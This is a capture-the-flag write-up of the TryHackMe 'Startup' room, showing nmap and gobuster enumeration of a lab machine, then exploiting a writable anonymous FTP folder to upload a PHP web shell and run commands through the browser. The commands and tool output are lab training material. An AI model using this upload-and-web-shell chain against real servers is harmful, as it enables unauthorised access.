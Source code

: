 # Startup
This is a write up of the CTF Room [Startup](https://tryhackme.com/room/startup) by [TryHackMe](https://tryhackme.com/). 

## Tags
Note that the room has the following tags. We need to keep this in mind when working through the room as this gives us clues as to what to look to exploit.

- wireshark 
- cron
- gobuster 
- enumeration

I also refered to this [write up](https://apjone.uk/tryhackme-startup-spicehut/) whilst working through the room.

## nmap
Enumeration of open ports was carried out with nmap.

`$ nmap -sC -sV -oN namp.txt $IPADDR`

The open ports are:
- 21, FTP
- 22, SSH
- 80, HTTP

If we look at the details of the output from nmap we see that the FTP server allows anonymous login and there is a folder (called ftp) that we can read and write too.

```
| FTP server status:
|      Connected to 10.8.172.22
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

## gobuster

An inital scan of the http server was performed with gobuster.

`$ gobuster dir -w /opt/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IPADDR | tee gobuster1.txt`

This gives us 1 directory to enumerate further:

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.73.233
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/23 18:10:13 Starting gobuster in directory enumeration mode
===============================================================

/files                (Status: 301) [Size: 312] [--> http://10.10.73.233/files/]
===============================================================
2022/07/23 18:15:44 Finished
===============================================================
```

Enumerating the `files` directory:

`$ gobuster dir -w /opt/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IPADDR/files | tee gobuster2.txt`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.128.62/files
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/25 04:45:13 Starting gobuster in directory enumeration mode
===============================================================

/ftp                  (Status: 301) [Size: 316] [--> http://10.10.128.62/files/ftp/]
===============================================================
2022/07/25 04:50:39 Finished
===============================================================
```

This directory hierarchy is same as that seen for the ftp server with nmap, therefore it should be possible to upload a php webshell via ftp to run in the browser.

## Uploading php web shell via ftp
Code for a php web shell was found [here](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and saved as `webshello.php`.

The php file was uploaded using an ftp client.

```
$ ftp anonymous@10.10.128.62
Connected to 10.10.128.62.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23399|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put webshello.php 
local: webshello.php remote: webshello.php
229 Entering Extended Passive Mode (|||55876|)
150 Ok to send data.
100% |********************************|   301        5.85 MiB/s    00:00 ETA
226 Transfer complete.
301 bytes sent in 00:00 (4.18 KiB/s)
ftp> quit
221 Goodbye.
```

In a web browser it is possible to navigate to the web shell uploaded to the traget machine and exectute commands. 

![Directory listing via web shell](webshell_ls.png)


